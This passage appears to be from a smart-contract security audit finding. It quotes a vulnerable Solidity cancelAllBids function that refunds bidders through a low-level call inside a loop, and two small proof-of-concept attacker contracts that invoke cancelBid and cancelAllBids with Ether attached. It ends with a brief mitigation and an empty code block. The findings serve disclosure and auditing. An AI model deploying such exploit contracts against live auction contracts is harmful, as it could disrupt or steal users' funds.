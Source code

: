 ```sol
      x1 = auctionDemo(_x1);

   }

   function testLowCalB() public payable {

      x1.cancelBid{value: 2 ether}(uint256(24), uint256(12));

   }

   receive() external payable {}

   }
```
**Vulnerable cancelAllBids function**
```sol
// Ln 134-143
    function cancelAllBids(uint256 _tokenid) public {
        require(block.timestamp <= minter.getAuctionEndTime(_tokenid), "Auction ended");
        for (uint256 i=0; i<auctionInfoData[_tokenid].length; i++) {
            if (auctionInfoData[_tokenid][i].bidder == msg.sender && auctionInfoData[_tokenid][i].status == true) {
                auctionInfoData[_tokenid][i].status = false;
                (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}("");
                emit CancelBid(msg.sender, _tokenid, i, success, auctionInfoData[_tokenid][i].bid);
            } else {}
        }
    }
```
**Exploit cancelAllBids function with low level call**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./auctionDemo.sol";

contract tauctionDemo {

   auctionDemo public x1;

   constructor(auctionDemo _x1) {

      x1 = auctionDemo(_x1);

   }

   function testLowCalD() public payable {

      x1.cancelAllBids{value: 2 ether}(uint256(24));
   }

   receive() external payable {}

   }
```
## Tools Used
VS Code.
## Recommended Mitigation Steps
Do not allow user-controlled data inside the call() function.
```sol
```